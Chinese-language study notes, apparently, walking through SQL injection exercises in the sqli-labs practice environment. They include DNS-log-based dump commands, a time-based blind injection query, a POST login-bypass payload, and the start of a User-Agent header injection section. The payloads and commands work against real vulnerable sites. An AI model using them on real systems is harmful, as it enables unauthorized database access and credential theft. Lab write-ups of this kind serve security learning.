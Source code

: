 ### 使用脚本 DnslogSqlinj

```shell
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" --dbs
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security --tables
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users --columns
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump
```

过时的脚本，多年未维护，应该还是去用 sqlmap 比较好

## less-9_time

### 时间盲注

啥回显都没有，甚至没有真假值的区别，而网站会执行你写的代码，此时可以使用时间盲注

```sql
select if(ascii(substr((select database()),1,1))>100, sleep(0), sleep(3))
```

其中 if 函数：

```sql
if(condition, True, False)
```

条件式为真时执行 True 语句，条件式为假时执行 False 语句，从而达到判断的效果

## less-11_post
### post 注入

1. 用 burp suite 抓包查看提交信息

   ![](https://s2.loli.net/2024/05/12/4bGMlaSktwWUD1K.png)

2. 看到提交的参数分别是 uname passwd submit

3. 其实 submit 没必要提交，而且由于这个 submit 和 form 中的 submit 重名了，如果提交反而会报错失败

4. 在 hackbar 上进行 post 注入：uname=admin' or 1=1#&passwd=111

5. 如果想获取数据库相关信息，在单引号和 # 之间进行 union 注入即可

## less-18_uagent
### 使用 Burp Suite 进行 Header Injection

1. 首先我们需要争取到一个 username 和 password

2. 看到页面返回了 User Agent : ![](https://s2.loli.net/2024/05/12/olfxwdSi6gaFruC.png)

3. 查看 php 源码得知注入点就在 $uagent
